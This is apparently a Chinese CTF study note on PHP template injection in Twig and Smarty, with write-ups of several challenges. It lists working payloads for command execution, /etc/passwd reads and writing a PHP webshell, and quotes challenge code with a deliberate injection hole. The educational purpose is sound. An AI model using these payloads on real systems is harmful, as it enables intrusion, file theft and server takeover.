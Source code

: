 ## PHP模板注入

### Twig

![img](https://gitee.com/bx33661/image/raw/master/path/logo.md.png)

参考文档：

- https://www.cnblogs.com/bmjoker/p/13508538.html

- https://xz.aliyun.com/t/10056?time__1311=Cqjx2DRiDtYmqGNDQiuB%3DDuiDnQCYCWK4D#toc-16

#### Twig-1.x

#### Twig-2









### smarty

> 官方解释：
>
> Smarty是PHP的模板引擎，有助于将表示 (HTML/CSS) 与应用程序逻辑分离。这意味着PHP代码是应用程序逻辑，并且与表示分离

还有一个变种：

SmartyBC:`SmartyBC`（Backward Compatibility）是 Smarty 模板引擎的一个变种，旨在保持与旧版 Smarty（尤其是 Smarty 2）的兼容性。在 Smarty 3 中，为了引入新的功能和改进性能，一些旧版 Smarty 的语法和行为发生了变化。`SmartyBC` 提供了一种方法，使开发者可以在使用 Smarty 3 的同时，仍然支持旧版 Smarty 的语法和行为。



```php
{$smarty.version}
```

返回`Smarty engine`版本号



老版本的smarty支持`{php}{/php}`的标签🏷

> 不过在新的版本这个语法已经被废除，仅在SmartyBC中可用。

就可以执行php命令

```php
{php}phpinfo();{/php}
{php}。。。。。;{/php}
```



`Smarty`类的`getStreamVariable()`方法代码如下：

```php
public function getStreamVariable($variable)
{
        $_result = '';
        $fp = fopen($variable, 'r+');
        if ($fp) {
            while (!feof($fp) && ($current_line = fgets($fp)) !== false) {
                $_result .= $current_line;
            }
            fclose($fp);
            return $_result;
        }
        $smarty = isset($this->smarty) ? $this->smarty : $this;
        if ($smarty->error_unassigned) {
            throw new SmartyException('Undefined stream variable "' . $variable . '"');
        } else {
            return null;
        }
    }
```

方法概述：`getStreamVariable` 方法的主要功能是从给定的文件流中读取内容，并将其作为字符串返回。如果文件流无法打开或文件不存在，方法将根据配置决定是否抛出异常或返回 `null`

利用这个可以构造读取文件的Payload：

```php
{self::getStreamVariable("file:///etc/passwd")}
```

> ⚠️：**在3.1.30以上的Smarty版本中：**
>
> *官方已经移除了这个方法，所以说不能执行成功*



#### {if}标签

基本语法：

```php
{if $condition}
    {# 满足条件时执行的内容 #}
{elseif $another_condition}
    {# 满足另一个条件时执行的内容 #}
{else}
    {# 以上条件都不满足时执行的内容 #}
{/if}

```

需要注意的是： ----- **每个{if}必须有一个配对的{/if}**

**全部的PHP条件表达式和函数都可以在if内使用**

所以利用这个标签我们就可以进行模板注入

```php
{if phpinfo()}{/if}
{if system('ls /')}{/if}
{if cat /flag}{/if}
```



### 例子

#### [BJDCTF2020]The mystery of ip

----

> 基于xff的模板注入
>
> 这个是php的smarty注入----可以通过{$smarty.version}查到版本

<img src="https://gitee.com/bx33661/image/raw/master/path/image-20241011173937368.png" style="zoom:50%;" />

抓包测试：

![2af3ad8b9abd9f3c8d2c2365664a4c4](https://gitee.com/bx33661/image/raw/master/path/2af3ad8b9abd9f3c8d2c2365664a4c4.png)

这个可以直接执行命令：

```
{{system("ls")}}
{{system(cat /flag)}}
```



题目源代码如下：

```php
<?php
    require_once('header.php');
    require_once('./libs/Smarty.class.php');
    $smarty = new Smarty();
    if (!empty($_SERVER['HTTP_CLIENT_IP'])) 
    {
        $ip=$_SERVER['HTTP_CLIENT_IP'];
    }
    elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR']))
    {
        $ip=$_SERVER['HTTP_X_FORWARDED_FOR'];
    }
    else
    {
        $ip=$_SERVER['REMOTE_ADDR'];
    }
    //$your_ip = $smarty->display("string:".$ip);
    echo "<div class=\"container panel1\">
                <div class=\"row\">
                <div class=\"col-md-4\">    
                </div>
            <div class=\"col-md-4\">
                <div class=\"jumbotron pan\">
                    <div class=\"form-group log\">
                        <label><h2>Your IP is : ";
    $smarty->display("string:".$ip);
    echo "            </h2></label>
                    </div>        
                </div>
            </div>
                <div class=\"col-md-4\">    
                </div>
                </div>
            </div>";
?>

```



#### [CISCN2019 华东南赛区]Web11

> Smarty模板注入

---

我们发现使用的是`smarty`模板，我们抓包发现XFF是注入点

![image-20241021213802033](https://gitee.com/bx33661/image/raw/master/path/image-20241021213802033.png)

于是我们尝试是不是模板注入问题

- a{*comment*}b

在Smarty中`{*comment*}`注释符号不会渲染出来

- {$smarty.version}

![image-20241021213941201](https://gitee.com/bx33661/image/raw/master/path/image-20241021213941201.png)

```php
{if system('ls /')}{/if}
/*
          Current IP:bin dev etc flag home lib media mnt opt proc root run sbin
          srv sys usr var
          */

{if system('cat /flag')}{/if}
//Current IP:<?php $flag="flag{b5e17b43-ecc4-4b94-9bf5-619023b5a46e}";
```



#### [BJDCTF2020]Cookie is so stable

---

看题目我们就需要关注cookie，有两个界面

- flag,比较重要，有一个输入框
- hint,这个没啥用

我们尝试输入admin，题目直接输出`hello admin`

这让我们感到ssti的熟悉，尝试`{{7*7}}`

再分析这是一个PHP网站,基本上就是

- twig
- Smarty



Payload:

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```



![](https://gitee.com/bx33661/image/raw/master/path/image-20241024103533563.png)

```php
{{'/etc/passwd'|file_excerpt(1,30)}}
{{app.request.files.get(1).__construct('/etc/passwd','')}}
{{app.request.files.get(1).openFile.fread(99)}}
{{_self.env.registerUndefinedFilterCallback("exec")}}
{{_self.env.getFilter("whoami")}}
{{_self.env.enableDebug()}}{{_self.env.isDebug()}}
{{["id"]|map("system")|join(",")
{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}
{{["id",0]|sort("system")|join(",")}}
{{["id"]|filter("system")|join(",")}}
{{[0,0]|reduce("system","id")|join(",")}}
{{['cat /etc/passwd']|filter('system')}}
```



